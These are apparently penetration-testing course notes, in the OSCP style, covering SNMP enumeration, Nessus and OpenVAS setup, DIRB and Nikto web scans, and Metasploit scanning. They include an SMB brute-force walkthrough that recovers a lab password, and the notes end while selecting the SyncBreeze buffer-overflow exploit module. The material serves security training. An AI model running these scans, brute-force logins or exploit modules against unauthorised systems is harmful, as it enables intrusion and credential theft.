This example enumerates the open TCP ports:

```
kali @kali:~$ snmpwatk -c public -v1 10.11.1.14 1.3.6.1.2.1.6.13.1.3
iso.3.6.l.2.l.6.13.l.3.0.0.0.0.21.0.0.0.0.18646 = INTEGER: 21
iso.3.6.1.2.l.6.13.1.3.0.0.0.0.80.0.0.0.0.45310 = INTEGER: 80
iso.3.6.l.2.l.6.13.l.3.0.0.0.0.135.0.0.0.0.24806 = INTEGER: 135
iso.3.6.1.2.l.6.13.l.3.0.0.0.0.443.0.0.0.0.45070 = INTEGER: 443
...
```

###### Enumerating Installed Software

This example enumerates installed software:

```
kali@kali:~$ snmpwalk -c public -v1 10.11.1.50 1.3.6.1.2.1.25.6.3.1.2
iso.3.6.1.2.1.25.6.3.1.2.1 = STRING: "LiveUpdate 3.3 (Symantec Corporation)"
iso.3.6.1.2.1.25.6.3.1.2.2 = STRING: "WampServer 2.5"
iso.3.6.1.2.1.25.6.3.1.2.3 = STRING: "VMware Tools"
iso.3.6.1.2.1.25.6.3.1.2.4 = STRING: "Microsoft Visual C++ 2008 Redistributable - x86
9.0.30729.4148"
iso.3.6.1.2.1.25.6.3.1.2.5 = STRING: "Microsoft Visual C++ 2012 Redistributable (x86)
- 11.0.61030"
```


# 2. Vulnerability Assessment

## Scanning Vulnerabilities

### NMAP
### NESSUS 

#### Installing Nessus

Manually download the 64-bit .deb file for Kali from the Tenable website: https://www.tenable.com/downloads/nessus.

Validate the downloaded file's checksum with sha256sum:

```
kali@kali:~$ sha256sum Nessus-8.13.0-ubuntu910_amd64.deb 
30a9e896cc84b7bc1eccf7f45b89f707f5e4d20fa96451daa365b9634fd1ddd7  Nessus-8.13.0-ubuntu910_amd64.deb
```

Install the package with apt

```
kali@kali:~$ sudo apt install ./Nessus-x.x.X.deb
Preparing to unpack ••• /kali/nessus/Nessus-X.X.X.deb
Unpacking nessus (X.X.X) ..•
Setting up nessus (X.X.X) .••
Unpacking Nessus Scanner Core Components ...
- You can start Nessus Scanner by typing /etc/init.d/nessusd start
- Then go to https://kali:8834/ to configure your scanner
```


### OPENVAS 

### Installing Openvas

```
kali@kali:~$ apt-get install gvm*

kali@kali:~$ gvm-setup

kali@kali:~$ gvm-start
```

Browse

https://localhost:9392


# 3. Exploitation


## Web Application Attacks

### Web Application Enumeration

### Web Application Assessment Tools

#### DIRB

- DIRB is a web content scanner that uses a wordlist to find directories and pages by issuing requests to the server. 

- DIRB can identify valid web pages on a web server even if the main index page is missing.

We will supply several arguments: the URL to scan, -r to scan non-recursively, and -z 10 to add a 10 millisecond delay to each request:

```
kali@kali:~$ dirb http://www.megacorpone.com -r -z 10                                                                   255 ⨯

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sun Dec 20 20:51:59 2020
URL_BASE: http://www.megacorpone.com/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
OPTION: Not Recursive
SPEED_DELAY: 10 milliseconds

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://www.megacorpone.com/ ----
+ http://www.megacorpone.com/about (CODE:200|SIZE:14596)                                                     
+ http://www.megacorpone.com/admin (CODE:403|SIZE:292)                                                               
==> DIRECTORY: http://www.megacorpone.com/assets/                                                                    
+ http://www.megacorpone.com/contact (CODE:200|SIZE:9439)                                                            
+ http://www.megacorpone.com/index (CODE:200|SIZE:14603)                                                             
+ http://www.megacorpone.com/index.html (CODE:200|SIZE:14603)                                                        
+ http://www.megacorpone.com/jobs (CODE:200|SIZE:13269)                                                              
==> DIRECTORY: http://www.megacorpone.com/old-site/                                                                  
+ http://www.megacorpone.com/robots (CODE:200|SIZE:43)                                                               
+ http://www.megacorpone.com/robots.txt (CODE:200|SIZE:43)                                                           
+ http://www.megacorpone.com/server-status (CODE:403|SIZE:300)                                                       
                                                                                                                     
-----------------
END_TIME: Sun Dec 20 21:12:53 2020
DOWNLOADED: 4612 - FOUND: 9

```


#### Nikto

- Nikto is a highly configurable Open Source web server scanner that tests for thousands of dangerous files and programs, vulnerable server versions and various server configuration issues. It performs well, but is not designed for stealth as it will send many requests and embed information about itself in the User-Agent header.

We'll specify the host we want to scan (-host=http://www.megacorpone.com) and for the sake of this demonstration, we'll use -maxtime=30s to limit t he scan duration to 30 seconds:

```
kali@kali:~$ nikto -host=http://www.megacorpone.com -maxtime=30s
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          3.220.87.155
+ Target Hostname:    www.megacorpone.com
+ Target Port:        80
+ Start Time:         2020-12-20 23:11:03 (GMT-5)
---------------------------------------------------------------------------
+ Server: Apache/2.2.22 (Ubuntu)
+ Server may leak inodes via ETags, header found with file /, inode: 152243, size: 14603, mtime: Wed Nov  6 10:04:14 2019
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ ERROR: Host maximum execution time of 30 seconds reached
+ Scan terminated:  0 error(s) and 4 item(s) reported on remote host
+ End Time:           2020-12-20 23:11:34 (GMT-5) (31 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```


### Cross-Site Scripting (XSS)

### Identifying XSS Vulnerabilities


## The Metasploit Framework

### Metasploit User Interfaces and Setup

Start postgresql service

```
kali@kali:~$ sudo systemctl start postgresql
```

Enable postgresql at boot time

```
kali@kali:~$ sudo systemctl enable postgresql
```

Update metasploit

```
kali@kali:~$ sudo apt update; sudo apt install metasploit-framework
```

Launch metasploit

```
kali@kali:~$ sudo msfconsole
```

The Metasploit Framework includes several thousand modules, divided into categories. The
categories are displayed on the splash screen summary but we can also view them with the show
-h command.

```
msf6 > show -h
[*] Valid parameters for the "show" command are: all, encoders, nops, exploits, payloads, auxiliary, post, plugins, info, options
[*] Additional module-specific parameters are: missing, advanced, evasion, targets, actions
```

To activate a module, enter use followed by the module name (auxiliary/scanner/portscan/tcp in
the example below). At this point, the prompt will indicate the active module. We can use back to
move out of the current context and return to the main msf6 prompt:

```
msf6 > use auxiliary/scanner/portscan/tcp
msf6 auxiliary(scanner/portscan/tcp) > back
msf6 >
```

A variation of back is previous , which will switch us back to the previously selected module
instead of the main prompt:

```
msf5 > use auxiliary/scanner/portscan/tcp
msf5 auxiliary(scanner/portscan/tcp) > use auxiliary/scanner/portscan/syn
msf5 auxiliary(scanner/portscan/syn) > previous
msf5 auxiliary(scanner/portscan/tcp) >
```

Most modules require options ( show options ) before they can be run. We can configure these
options with set and unset and can also set and remove global options with setg or unsetg
respectively.

```
msf6 auxiliary(scanner/portscan/tcp) > show options 

Module options (auxiliary/scanner/portscan/tcp):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   CONCURRENCY  10               yes       The number of concurrent ports to check per host
   DELAY        0                yes       The delay between connections, per thread, in milliseconds
   JITTER       0                yes       The delay jitter factor (maximum value by which to +/- DELAY) in milliseconds.
   PORTS        1-10000          yes       Ports to scan (e.g. 22-25,80,110-900)
   RHOSTS                        yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   THREADS      1                yes       The number of concurrent threads (max one per host)
   TIMEOUT      1000             yes       The socket connect timeout in milliseconds

```

For example, to perform a scan of our Windows workstation with the scanner/portscan/tcp
module, we must first set the remote host IP address ( RHOSTS ) with the set command.

```
msf6 auxiliary(scanner/portscan/tcp) > set RHOSTS 192.168.101.113
RHOSTS => 192.168.101.113
msf6 auxiliary(scanner/portscan/tcp) > run

[+] 192.168.101.113:      - 192.168.101.113:80 - TCP OPEN
[+] 192.168.101.113:      - 192.168.101.113:135 - TCP OPEN
[+] 192.168.101.113:      - 192.168.101.113:139 - TCP OPEN
[+] 192.168.101.113:      - 192.168.101.113:445 - TCP OPEN
[+] 192.168.101.113:      - 192.168.101.113:443 - TCP OPEN

```

### Metasploit Database Access

- If the postgresql service is running, Metasploit will log findings and information about discovered
  hosts, services, or credentials in a convenient, accessible database.
- In the following listing, the database has been populated with the results of the TCP scan we ran in
  the previous section. We can display these results with the services command:

```
msf6 auxiliary(scanner/portscan/tcp) > services 
Services
========

host             port  proto  name  state  info
----             ----  -----  ----  -----  ----
192.168.101.113  80    tcp          open   
192.168.101.113  135   tcp          open   
192.168.101.113  139   tcp          open   
192.168.101.113  443   tcp          open   
192.168.101.113  445   tcp          open   
192.168.101.113  3306  tcp          open   
192.168.101.113  3389  tcp          open   
192.168.101.113  5040  tcp          open   
192.168.101.113  5357  tcp          open   
192.168.101.113  7680  tcp          open   
```

The basic services command displays all results, but we can also filter by port number ( -p ),
service name ( -s ), and more as shown in the help output of services -h :

```
msf6 auxiliary(scanner/portscan/tcp) > services -h

Usage: services [-h] [-u] [-a] [-r <proto>] [-p <port1,port2>] [-s <name1,name2>] [-o <filename>] [addr1 addr2 ...]

  -a,--add          Add the services instead of searching
  -d,--delete       Delete the services instead of searching
  -c <col1,col2>    Only show the given columns
  -h,--help         Show this help information
  -s <name>         Name of the service to add
  -p <port>         Search for a list of ports
  -r <protocol>     Protocol type of the service being added [tcp|udp]
  -u,--up           Only show services which are up
  -o <file>         Send output to a file in csv format
  -O <column>       Order rows by specified column number
  -R,--rhosts       Set RHOSTS from the results of the search
  -S,--search       Search string to filter by
  -U,--update       Update data for existing service

Available columns: created_at, info, name, port, proto, state, updated_at
```

In addition to a simple TCP port scanner, we can also use the db_nmap wrapper to execute Nmap
inside Metasploit and save the findings to the database for ease of access. The db_nmap command
has identical syntax to Nmap and is shown below:

```
msf6 > db_nmap 
[*] Usage: db_nmap [--save | [--help | -h]] [nmap options]

sf6 > db_nmap 192.168.101.113 -A -Pn
[*] Nmap: 'Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.'
[*] Nmap: Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-14 22:40 EST
[*] Nmap: Nmap scan report for 192.168.101.113
[*] Nmap: Host is up (0.0015s latency).
[*] Nmap: Not shown: 992 filtered ports
[*] Nmap: PORT     STATE SERVICE       VERSION
[*] Nmap: 80/tcp   open  http          Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1h PHP/7.4.13)
[*] Nmap: |_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1h PHP/7.4.13
[*] Nmap: | http-title: Welcome to XAMPP
[*] Nmap: |_Requested resource was http://192.168.101.113/dashboard/
[*] Nmap: 135/tcp  open  msrpc         Microsoft Windows RPC
[*] Nmap: 139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
[*] Nmap: 443/tcp  open  ssl/http      Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1h PHP/7.4.13)
[*] Nmap: |_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1h PHP/7.4.13
[*] Nmap: | http-title: Welcome to XAMPP
[*] Nmap: |_Requested resource was https://192.168.101.113/dashboard/
[*] Nmap: | ssl-cert: Subject: commonName=localhost
[*] Nmap: | Not valid before: 2009-11-10T23:48:47
[*] Nmap: |_Not valid after:  2019-11-08T23:48:47
[*] Nmap: |_ssl-date: TLS randomness does not represent time
[*] Nmap: | tls-alpn:
[*] Nmap: |_  http/1.1
[*] Nmap: 445/tcp  open  microsoft-ds  Windows 10 Pro 18363 microsoft-ds (workgroup: WORKGROUP)
[*] Nmap: 3306/tcp open  mysql?
[*] Nmap: | fingerprint-strings:
[*] Nmap: |   NULL:
[*] Nmap: |_    Host '192.168.101.116' is not allowed to connect to this MariaDB server
[*] Nmap: 3389/tcp open  ms-wbt-server Microsoft Terminal Services
[*] Nmap: | rdp-ntlm-info:
[*] Nmap: |   Target_Name: DESKTOP-H5AKSBG
[*] Nmap: |   NetBIOS_Domain_Name: DESKTOP-H5AKSBG
[*] Nmap: |   NetBIOS_Computer_Name: DESKTOP-H5AKSBG
[*] Nmap: |   DNS_Domain_Name: DESKTOP-H5AKSBG
[*] Nmap: |   DNS_Computer_Name: DESKTOP-H5AKSBG
[*] Nmap: |   Product_Version: 10.0.18362
[*] Nmap: |_  System_Time: 2021-02-15T03:40:53+00:00
[*] Nmap: | ssl-cert: Subject: commonName=DESKTOP-H5AKSBG
[*] Nmap: | Not valid before: 2020-12-08T02:39:09
[*] Nmap: |_Not valid after:  2021-06-09T02:39:09
[*] Nmap: |_ssl-date: 2021-02-15T03:41:32+00:00; 0s from scanner time.
[*] Nmap: 5357/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
[*] Nmap: |_http-server-header: Microsoft-HTTPAPI/2.0
[*] Nmap: |_http-title: Service Unavailable
[*] Nmap: 1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
[*] Nmap: SF-Port3306-TCP:V=7.91%I=7%D=2/14%Time=6029ED34%P=x86_64-pc-linux-gnu%r(NU
[*] Nmap: SF:LL,4E,"J\0\0\x01\xffj\x04Host\x20'192\.168\.101\.116'\x20is\x20not\x20a
[*] Nmap: SF:llowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server");
[*] Nmap: MAC Address: 00:0C:29:57:A0:26 (VMware)
[*] Nmap: Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
[*] Nmap: Device type: general purpose
[*] Nmap: Running (JUST GUESSING): Microsoft Windows XP|2008|7 (89%)
[*] Nmap: OS CPE: cpe:/o:microsoft:windows_xp::sp3 cpe:/o:microsoft:windows_server_2008::sp1 cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7
[*] Nmap: Aggressive OS guesses: Microsoft Windows XP SP3 (89%), Microsoft Windows Server 2008 SP1 or Windows Server 2008 R2 (86%), Microsoft Windows XP SP2 (85%), Microsoft Windows 7 (85%)
[*] Nmap: No exact OS matches for host (test conditions non-ideal).
[*] Nmap: Network Distance: 1 hop
[*] Nmap: Service Info: Host: DESKTOP-H5AKSBG; OS: Windows; CPE: cpe:/o:microsoft:windows
[*] Nmap: Host script results:
[*] Nmap: |_clock-skew: mean: -1h35m59s, deviation: 3h34m39s, median: 0s
[*] Nmap: |_nbstat: NetBIOS name: DESKTOP-H5AKSBG, NetBIOS user: <unknown>, NetBIOS MAC: 00:0c:29:57:a0:26 (VMware)
[*] Nmap: | smb-os-discovery:
[*] Nmap: |   OS: Windows 10 Pro 18363 (Windows 10 Pro 6.3)
[*] Nmap: |   OS CPE: cpe:/o:microsoft:windows_10::-
[*] Nmap: |   Computer name: DESKTOP-H5AKSBG
[*] Nmap: |   NetBIOS computer name: DESKTOP-H5AKSBG\x00
[*] Nmap: |   Workgroup: WORKGROUP\x00
[*] Nmap: |_  System time: 2021-02-15T11:40:53+08:00
[*] Nmap: | smb-security-mode:
[*] Nmap: |   account_used: guest
[*] Nmap: |   authentication_level: user
[*] Nmap: |   challenge_response: supported
[*] Nmap: |_  message_signing: disabled (dangerous, but default)
[*] Nmap: | smb2-security-mode:
[*] Nmap: |   2.02:
[*] Nmap: |_    Message signing enabled but not required
[*] Nmap: | smb2-time:
[*] Nmap: |   date: 2021-02-15T03:40:52
[*] Nmap: |_  start_date: N/A
[*] Nmap: TRACEROUTE
[*] Nmap: HOP RTT     ADDRESS
[*] Nmap: 1   1.53 ms 192.168.101.113
[*] Nmap: OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
[*] Nmap: Nmap done: 1 IP address (1 host up) scanned in 62.56 seconds

```

To display all discovered hosts up to this point, we can issue the hosts command. As an additional
example, we can also list all services running on port 445 with the services -p 445 command.

```
msf6 > hosts

Hosts
=====

address          mac                name     os_name     os_flavor  os_sp  purpose  info  comments
-------          ---                ----     -------     ---------  -----  -------  ----  --------
192.168.100.107                     OWEN-PC  Windows 10                    client         
192.168.101.113  00:0c:29:57:a0:26           Windows XP                    client         

msf6 > services -p 445
Services
========

host             port  proto  name          state  info
----             ----  -----  ----          -----  ----
192.168.101.113  445   tcp    microsoft-ds  open   Windows 10 Pro 18363 microsoft-ds workgroup: WORKGROUP
```

To help organize content in the database, Metasploit allows us to store information in separate
workspaces. When specifying a workspace, we will only see database entries relevant to that
workspace, which helps us easily manage data from various enumeration efforts and assignments.
We can list the available workspaces with workspace , or provide the name of the workspace as an
argument to change to a different workspace

```
msf6 > workspace --help
Usage:
    workspace                  List workspaces
    workspace -v               List workspaces verbosely
    workspace [name]           Switch workspace
    workspace -a [name] ...    Add workspace(s)
    workspace -d [name] ...    Delete workspace(s)
    workspace -D               Delete all workspaces
    workspace -r <old> <new>   Rename workspace
    workspace -h               Show this help information
```


### Auxiliary Modules

The Metasploit Framework includes hundreds of auxiliary modules that provide functionality such
as protocol enumeration, port scanning, fuzzing, sniffing, and more. The modules all follow a
common slash-delimited hierarchical syntax (module type/os, vendor, app, or protocol/module
name), which makes it easy to explore and use the modules. Auxiliary modules are useful for many
tasks, including information gathering (under the gather/ hierarchy), scanning and enumeration of
various services (under the scanner/ hierarchy), and so on.

To list all auxiliary modules, we run the show auxiliary command. This will present a very long
list of all auxiliary modules as shown in the truncated output below:

```
msf5 > show auxiliary
Auxiliary
=========
Name
Rank
Description
----
----
-----------
................
scanner/smb/smb1
normal SMBv1 Protocol Detection
scanner/smb/smb2
normal SMB 2.0 Protocol Detection
scanner/smb/smb_enumshares
normal SMB Share Enumeration
scanner/smb/smb_enumusers
normal SMB User Enumeration (SAM EnumUsers)
scanner/smb/smb_enumusers_domain
normal SMB Domain User Enumeration
scanner/smb/smb_login
normal SMB Login Check Scanner
scanner/smb/smb_lookupsid
normal SMB SID User Enumeration (LookupSid)
scanner/smb/smb_ms17_010
normal MS17-010 SMB RCE Detection
scanner/smb/smb_version
normal SMB Version Detection
```

We can use search to reduce this considerable output, filtering by app, type, platform, and more.
For example, we can search for SMB auxiliary modules with search type:auxiliary name:smb
as shown in the following listing.

```
msf6 > search -h
Usage: search [<options>] [<keywords>:<value>]

Prepending a value with '-' will exclude any matching results.
If no options or keywords are provided, cached results are displayed.

OPTIONS:
  -h                Show this help information
  -o <file>         Send output to a file in csv format
  -S <string>       Regex pattern used to filter search results
  -u                Use module if there is one result

Keywords:
  aka         :  Modules with a matching AKA (also-known-as) name
  author      :  Modules written by this author
  arch        :  Modules affecting this architecture
  bid         :  Modules with a matching Bugtraq ID
  cve         :  Modules with a matching CVE ID
  edb         :  Modules with a matching Exploit-DB ID
  check       :  Modules that support the 'check' method
  date        :  Modules with a matching disclosure date
  description :  Modules with a matching description
  fullname    :  Modules with a matching full name
  mod_time    :  Modules with a matching modification date
  name        :  Modules with a matching descriptive name
  path        :  Modules with a matching path
  platform    :  Modules affecting this platform
  port        :  Modules with a matching port
  rank        :  Modules with a matching rank (Can be descriptive (ex: 'good') or numeric with comparison operators (ex: 'gte400'))
  ref         :  Modules with a matching ref
  reference   :  Modules with a matching reference
  target      :  Modules affecting this target
  type        :  Modules of a specific type (exploit, payload, auxiliary, encoder, evasion, post, or nop)

Examples:
  search cve:2009 type:exploit
  search cve:2009 type:exploit platform:-linux
```

```
msf6 > search type:auxiliary name:smb

Matching Modules
================

   #   Name                                                        Disclosure Date  Rank    Check  Description
   -   ----                                                        ---------------  ----    -----  -----------
   0   auxiliary/admin/oracle/ora_ntlm_stealer                     2009-04-07       normal  No     Oracle SMB Relay Code Execution
   1   auxiliary/admin/smb/check_dir_file                                           normal  No     SMB Scanner Check File/Directory Utility
   2   auxiliary/admin/smb/delete_file                                              normal  No     SMB File Delete Utility
   3   auxiliary/admin/smb/download_file                                            normal  No     SMB File Download Utility
   4   auxiliary/admin/smb/list_directory                                           normal  No     SMB Directory Listing Utility
.......
```

#### SMB Scanner

After invoking a module with use , we can request more info about it as follows:

```
msf6 > use auxiliary/scanner/smb/smb_version
msf6 auxiliary(scanner/smb/smb_version) > info

       Name: SMB Version Detection
     Module: auxiliary/scanner/smb/smb_version
    License: Metasploit Framework License (BSD)
       Rank: Normal

Provided by:
  hdm <x@hdm.io>
  Spencer McIntyre
  Christophe De La Fuente

Check supported:
  No

Basic options:
  Name     Current Setting  Required  Description
  ----     ---------------  --------  -----------
  RHOSTS                    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
  THREADS  1                yes       The number of concurrent threads (max one per host)

Description:
  Fingerprint and display version information about SMB servers. 
  Protocol information and host operating system (if available) will 
  be reported. Host operating system detection requires the remote 
  server to support version 1 of the SMB protocol. Compression and 
  encryption capability negotiation is only present in version 3.1.1.
```

Alternatively, since we have already scanned our Windows 10 machine, we could search the Metasploit database for hosts with TCP port 445 open ( services -p 445 ) and automatically add the results to RHOSTS ( –rhosts ):

```
msf6 auxiliary(scanner/smb/smb_version) > services -p 445 --rhosts
Services
========

host             port  proto  name          state  info
----             ----  -----  ----          -----  ----
192.168.101.113  445   tcp    microsoft-ds  open   Windows 10 Pro 18363 microsoft-ds workgroup: WORKGROUP

RHOSTS => 192.168.101.113
```

With the required parameters configured, we can launch the module with run or exploit :

```
msf6 auxiliary(scanner/smb/smb_version) > run

[*] 192.168.101.113:445   - SMB Detected (versions:1, 2, 3) (preferred dialect:SMB 3.1.1) (compression capabilities:LZNT1) (encryption capabilities:AES-128-CCM) (signatures:optional) (guid:{35057c78-9f1c-448f-9746-fcd47bdc8546}) (authentication domain:DESKTOP-H5AKSBG)
[+] 192.168.101.113:445   -   Host is running Windows 10 Pro (build:18363) (name:DESKTOP-H5AKSBG) (workgroup:WORKGROUP)
[*] 192.168.101.113:      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Based on the module’s output, the remote computer does indeed support SMB version 2. To leverage this, we can use the scanner/smb/smb_login module to attempt a brute force login against the machine. Loading the module and listing the options produces the following output:

```
msf6 > use auxiliary/scanner/smb/smb_login  

msf6 auxiliary(scanner/smb/smb_login) > options 

Module options (auxiliary/scanner/smb/smb_login):

   Name               Current Setting  Required  Description
   ----               ---------------  --------  -----------
   ABORT_ON_LOCKOUT   false            yes       Abort the run when an account lockout is detected
   BLANK_PASSWORDS    false            no        Try blank passwords for all users
   BRUTEFORCE_SPEED   5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS       false            no        Try each user/password couple stored in the current database
   DB_ALL_PASS        false            no        Add all passwords in the current database to the list
   DB_ALL_USERS       false            no        Add all users in the current database to the list
   DETECT_ANY_AUTH    false            no        Enable detection of systems accepting any authentication
   DETECT_ANY_DOMAIN  false            no        Detect if domain is required for the specified user
   PASS_FILE                           no        File containing passwords, one per line
   PRESERVE_DOMAINS   true             no        Respect a username that contains a domain name.
   Proxies                             no        A proxy chain of format type:host:port[,type:host:port][...]
   RECORD_GUEST       false            no        Record guest-privileged random logins to the database
   RHOSTS                              yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT              445              yes       The SMB service port (TCP)
   SMBDomain          .                no        The Windows domain to use for authentication
   SMBPass                             no        The password for the specified username
   SMBUser                             no        The username to authenticate as
   STOP_ON_SUCCESS    false            yes       Stop guessing when a credential works for a host
   THREADS            1                yes       The number of concurrent threads (max one per host)
   USERPASS_FILE                       no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS       false            no        Try the username as the password for all users
   USER_FILE                           no        File containing usernames, one per line
   VERBOSE            true             yes       Whether to print output for all attempts

```

We notice that RHOSTS is not set, even though we set it while using the previous smb2 module. This is because set defines a parameter only within the scope of the running module. We can instead set a global parameter, which is available across all modules, with setg .

```
msf6 auxiliary(scanner/smb/smb_login) > setg RHOSTS 192.168.101.113
RHOSTS => 192.168.101.113
```

We’ll start by supplying the valid domain name of corp.com , a valid username ( Offsec ), an invalid password ( ABCDEFG123! ), and the Windows 10 target’s IP address:

```
msf5 auxiliary(scanner/smb/smb_login) > set SMBDomain corp.com
SMBDomain => corp.com
msf5 auxiliary(scanner/smb/smb_login) > set SMBUser Offsec
SMBUser => Offsec
msf5 auxiliary(scanner/smb/smb_login) > set SMBPass ABCDEFG123!
SMBPass => ABCDEFG123!
msf5 auxiliary(scanner/smb/smb_login) > setg RHOSTS 10.11.0.22
RHOSTS => 10.11.0.22
msf5 auxiliary(scanner/smb/smb_login) > set THREADS 10
THREADS => 10
msf5 auxiliary(scanner/smb/smb_login) > run
[*] 10.11.0.22:445 - 10.11.0.22:445 - Starting SMB login bruteforce
[*] 10.11.0.22:445 - 10.11.0.22:445 - This system does not accept authentication wit
[-] 10.11.0.22:445 - 10.11.0.22:445 - Failed: 'corp.com\Offsec:ABCDEFG123!',
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Since we knew that the password we supplied was invalid, the login failed as expected. Now, let’s try to supply a valid password and re-run the module.

```
msf5 auxiliary(scanner/smb/smb_login) > set SMBPass Qwerty09!
SMBPass => Qwerty09!
msf5 auxiliary(scanner/smb/smb_login) > run
[*] 10.11.0.22:445 - 10.11.0.22:445 - Starting SMB login bruteforce
[*] 10.11.0.22:445 - 10.11.0.22:445 - This system does not accept authentication wit
[+] 10.11.0.22:445 - 10.11.0.22:445 - Success: 'corp.com\Offsec:Qwerty09!' Administrator
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

This time, the authentication succeeded. We can retrieve information regarding successful login
attempts from the database with creds .

```
msf6 auxiliary(scanner/smb/smb_login) > creds
Credentials
===========

host             origin           service        public       private   realm  private_type  JtR Format
----             ------           -------        ------       -------   -----  ------------  ----------
192.168.101.113  192.168.101.113  445/tcp (smb)  Offsec       Qwerty09!         Password
```

Although this run was successful, this method will not scale well. To test a larger user base with a variety of passwords, we could instead use the USERPASS_FILE parameter, which instructs the module to use a file containing users and passwords separated by space, with one pair per line.

```
msf5 auxiliary(scanner/smb/smb_login) > set USERPASS_FILE /home/kali/users.txt
USERPASS_FILE => /home/kali/users.txt

msf5 auxiliary(scanner/smb/smb_login) > run
  
[*] 10.11.0.22:445  - 10.11.0.22:445 - Starting SMB login bruteforce
[-] 10.11.0.22:445  - 10.11.0.22:445 - Failed: '.\bob:Qwerty09!',
[-] 10.11.0.22:445  - 10.11.0.22:445 - Failed: '.\bob:password',
[-] 10.11.0.22:445  - 10.11.0.22:445 - Failed: '.\alice:Qwerty09!',
[-] 10.11.0.22:445  - 10.11.0.22:445 - Failed: '.\alice:password',
[+] 10.11.0.22:445  - 10.11.0.22:445 - Success: '.\offsec:Qwerty09!'
[*] 10.11.0.22:445  - 10.11.0.22:445 - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

#### RDP Scanner

Let’s try out another module. In this example, we will try to identify machines listening on TCP port
3389, which indicates they might be accepting Remote Desktop Protocol (RDP) connections. To do
this, we will invoke the scanner/rdp/rdp_scanner module.

```
msf6 > use auxiliary/scanner/rdp/rdp_scanner

msf6 auxiliary(scanner/rdp/rdp_scanner) > show options

Module options (auxiliary/scanner/rdp/rdp_scanner):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   DETECT_NLA       true             yes       Detect Network Level Authentication (NLA)
   RDP_CLIENT_IP    192.168.101.116  yes       The client IPv4 address to report during connect
   RDP_CLIENT_NAME  rdesktop         no        The client computer name to report during connect, UNSET = random
   RDP_DOMAIN                        no        The client domain name to report during connect
   RDP_USER                          no        The username to report during connect, UNSET = random
   RHOSTS           192.168.101.113  yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT            3389             yes       The target port (TCP)
   THREADS          1                yes       The number of concurrent threads (max one per host)

msf6 auxiliary(scanner/rdp/rdp_scanner) > set RHOSTS 192.168.101.104
RHOSTS => 192.168.101.104
msf6 auxiliary(scanner/rdp/rdp_scanner) > run

[*] 192.168.101.104:3389  - Detected RDP on 192.168.101.104:3389  (Windows version: 10.0.18362) (Requires NLA: No)
[*] 192.168.101.104:3389  - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

### Exploit Modules

#### SyncBreeze Enterprise

```
msf6 > search syncbreeze

Matching Modules
================

   #  Name                                       Disclosure Date  Rank    Check  Description
   -  ----                                       ---------------  ----    -----  -----------
   0  exploit/windows/fileformat/syncbreeze_xml  2017-03-29       normal  No     Sync Breeze Enterprise 9.5.16 - Import Command Buffer Overflow
   1  exploit/windows/http/syncbreeze_bof        2017-03-15       great   Yes    Sync Breeze Enterprise GET Buffer Overflow


Interact with a module by name or index. For example info 1, use 1 or use exploit/windows/http/syncbreeze_bof
```

```
msf6 > info exploit/windows/http/syncbreeze_bof

       Name: Sync Breeze Enterprise GET Buffer Overflow
     Module: exploit/windows/http/syncbreeze_bof
   Platform: Windows
       Arch: 
 Privileged: Yes
    License: Metasploit Framework License (BSD)
       Rank: Great
  Disclosed: 2017-03-15

Provided by:
  Daniel Teixeira
  Andrew Smith
  Owais Mehtab
  Milton Valencia (wetw0rk)

Available targets:
  Id  Name
  --  ----
  0   Automatic
  1   Sync Breeze Enterprise v9.4.28
  2   Sync Breeze Enterprise v10.0.28
  3   Sync Breeze Enterprise v10.1.16

Check supported:
  Yes

Basic options:
  Name     Current Setting  Required  Description
  ----     ---------------  --------  -----------
  Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOSTS                    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
  RPORT    80               yes       The target port (TCP)
  SSL      false            no        Negotiate SSL/TLS for outgoing connections
  VHOST                     no        HTTP server virtual host

Payload information:
  Space: 500
  Avoid: 6 characters

Description:
  This module exploits a stack-based buffer overflow vulnerability in 
  the web interface of Sync Breeze Enterprise v9.4.28, v10.0.28, and 
  v10.1.16, caused by improper bounds checking of the request in HTTP 
  GET and POST requests sent to the built-in web server. This module 
  has been tested successfully on Windows 7 SP1 x86.

References:
  https://cvedetails.com/cve/CVE-2017-14980/
```

To retrieve a listing of all payloads that are compatible with the currently selected exploit module,
we run show payloads

```
msf6 > use exploit/windows/http/syncbreeze_bof
